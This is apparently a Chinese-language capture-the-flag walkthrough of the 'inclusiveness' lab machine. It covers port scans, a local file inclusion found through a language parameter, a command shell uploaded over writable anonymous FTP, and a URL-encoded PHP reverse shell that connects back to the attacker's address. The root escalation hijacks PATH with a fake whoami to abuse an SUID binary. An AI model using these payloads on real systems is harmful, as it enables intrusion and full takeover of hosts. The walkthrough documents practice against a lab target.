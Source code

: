 # inclusiveness
## 信息收集
### 端口枚举
```
┌──(aaron㉿aacai)-[~/Desktop/inclusiveness]
└─$ sudo nmap -p- 192.168.146.57                     
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-14 19:29 HKT
Nmap scan report for 192.168.146.57
Host is up (0.00016s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:0C:29:CC:0B:D9 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 10.67 seconds

└─$ sudo nmap -p21,22,80 -sV -A 192.168.146.57
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-14 19:30 HKT
Nmap scan report for 192.168.146.57
Host is up (0.00032s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 0        0            4096 Feb 08  2020 pub [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.146.50
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 06:1b:a3:92:83:a5:7a:15:bd:40:6e:0c:8d:98:27:7b (RSA)
|   256 cb:38:83:26:1a:9f:d3:5d:d3:fe:9b:a1:d3:bc:ab:2c (ECDSA)
|_  256 65:54:fc:2d:12:ac:e1:84:78:3e:00:23:fb:e4:c9:ee (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.38 (Debian)
MAC Address: 00:0C:29:CC:0B:D9 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.32 ms 192.168.146.57

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.75 seconds

```
### FTP信息枚举
在端口枚举的时候看到FTP允许匿名访问, 匿名访问看看有没有什么文件可以下载
```
└─$ ftp 192.168.146.57   
Connected to 192.168.146.57.
220 (vsFTPd 3.0.3)
Name (192.168.146.57:aaron): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||28415|)
150 Here comes the directory listing.
drwxrwxrwx    2 0        0            4096 Feb 08  2020 pub
226 Directory send OK.
ftp> exit
221 Goodbye.

```
看来是没有...
### Web信息枚举
通过dirsearch我们可以看到有一个.robots.txt
```
[19:35:20] 200 -   59B  - /.robots.txt
[19:35:37] 200 -   10KB - /index.html
[19:35:40] 200 -  626B  - /manual/index.html
[19:35:44] 200 -   59B  - /public_html/robots.txt
[19:35:45] 200 -   59B  - /robots.txt
[19:35:45] 200 -   59B  - /robots.txt.dist

```

![Img](./FILES/inclusiveness/img-20220814193612.png)
但是返回告诉我们不是搜索引擎, 那我们就构造一个搜索引擎的ua
```
curl -s --user-agent Googlebot http://192.168.146.57/robots.txt   
```
![Img](./FILES/inclusiveness/img-20220814193752.png)
这里看到一个Disallow的目录
<br>
![Img](./FILES/inclusiveness/img-20220814193827.png)
访问之后当我们切换语言的时候, 会发现后面多了个lang=en.php, 尝试fuzz
![Img](./FILES/inclusiveness/img-20220814194154.png)
发现确实存在LFI, 直接访问/etc/passwd
![Img](./FILES/inclusiveness/img-20220814194223.png)
还记得刚开始的时候ftp是可以写入的, 那我们在就本地写一个能够接受cmd的系统函数给靶机
![Img](./FILES/inclusiveness/img-20220814194443.png)
![Img](./FILES/inclusiveness/img-20220814194510.png)
这样我们的shell.php就上去了
<br>
尝试查看一下ftp的目录在哪里, 通常在/etc下, 并且通过nmap我们也知道这个服务名为vsftpd
![Img](./FILES/inclusiveness/img-20220814194711.png)
看到了目录在/var/ftp, 这样我们就能直接访问了
![Img](./FILES/inclusiveness/img-20220814194807.png)
## 突破边界
发送php的反弹shell到靶机
```
php%20-r%20%27%24sock%3Dfsockopen%28%22192.168.146.50%22%2C4444%29%3Bexec%28%22sh%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27
```
![Img](./FILES/inclusiveness/img-20220814194920.png)
获取到www-data的权限
<br>
查看是否有文件具有suid的权限
![Img](./FILES/inclusiveness/img-20220814195112.png)
来到这个目录下, 查看到一个rootshell.c的文件, 通过gcc生成了rootshell
![Img](./FILES/inclusiveness/img-20220814195311.png)
![Img](./FILES/inclusiveness/img-20220814195433.png)
解读一下这行代码:    
<br>
如果文件以Tomcat的身份通过调用whoami的函数进行了身份认证之后, 可以直接提升权限, 否则将会直接打印当前的用户
<br>
那我们就去/tmp目录下新建一个whoami的文件, 然后伪造自己是tom
```
www-data@inclusiveness:/tmp$ echo "printf "tom"" > whoami
echo "printf "tom"" > whoami
www-data@inclusiveness:/tmp$ ls
ls
whoami
www-data@inclusiveness:/tmp$ chmod +x whoami
chmod +x whoami
www-data@inclusiveness:/tmp$ 
```
然后修改系统的路径到/tmp
```
www-data@inclusiveness:/tmp$ export PATH=/tmp:$PATH
export PATH=/tmp:$PATH
www-data@inclusiveness:/tmp$ 
```
然后去执行/rootshell
![Img](./FILES/inclusiveness/img-20220814200330.png)
提权成功
![Img](./FILES/inclusiveness/img-20220814200354.png)
